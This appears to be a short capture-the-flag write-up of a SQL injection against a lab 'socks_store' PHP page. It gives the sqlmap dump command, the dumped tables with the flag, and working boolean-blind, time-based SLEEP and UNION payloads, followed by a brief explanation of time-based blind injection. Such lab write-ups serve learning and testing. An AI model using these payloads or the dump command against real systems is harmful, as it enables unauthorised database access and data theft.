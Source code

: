 SqlMap
======

```sh
sqlmap -u 'http://10.23.10.10:8100/details.php?id=1' --dump
```

## The Response

```
Database: socks_store
Table: socks
[6 entries]
+----+---------------+---------+---------+-------+---------+-----------+---------------------+
| id | name         | brand  | color  | price | variant | inventory | created_at         |
+----+---------------+---------+---------+-------+---------+-----------+---------------------+
| 1 | Angular Socks | Angular | #584FB8 | 16   | blue   | 16       | 2023-03-18 01:16:24 |
| 2 | Angular Socks | Angular | #B51020 | 29   | red    | 3        | 2023-03-18 01:16:24 |
| 3 | npm Socks    | npm    | #DD1F41 | 10   | red    | 24       | 2023-03-18 01:16:24 |
| 4 | React Socks  | React  | #23A3AC | 29   | blue   | 15       | 2023-03-18 01:16:24 |
| 5 | Vue Socks    | Vue    | #27384F | 16   | blue   | 7        | 2023-03-18 01:16:24 |
| 6 | Vue Socks    | Vue    | #42AF7C | 15   | green  | 28       | 2023-03-18 01:16:24 |
+----+---------------+---------+---------+-------+---------+-----------+---------------------+


Database: socks_store
Table: flag
[1 entry]
+----+-----------------------+
| id | flag                 |
+----+-----------------------+
| 1 | CL-PNKJ789RD-HEHPN4RT |
+----+-----------------------+
```


## The Payload

```
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: id=1 AND 3281=3281
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1 AND (SELECT 3375 FROM (SELECT(SLEEP(5)))YpAo)
    Type: UNION query
    Title: Generic UNION query (NULL) - 7 columns
    Payload: id=-5588 UNION ALL SELECT NULL,CONCAT(0x71706b7671,0x746f68485750754e41574b4f45677866445756576e74504e5844484674416d454c4d686f644f6348,0x716a7a7171),NULL,NULL,NULL,NULL,NULL-- -
---
```

### Time-based blind

The attacker sends SQL queries forcing the database to wait for a specified amount of time before responding.
The response time indicates whether the result of the query is true (waited period) or false (crash result right away).
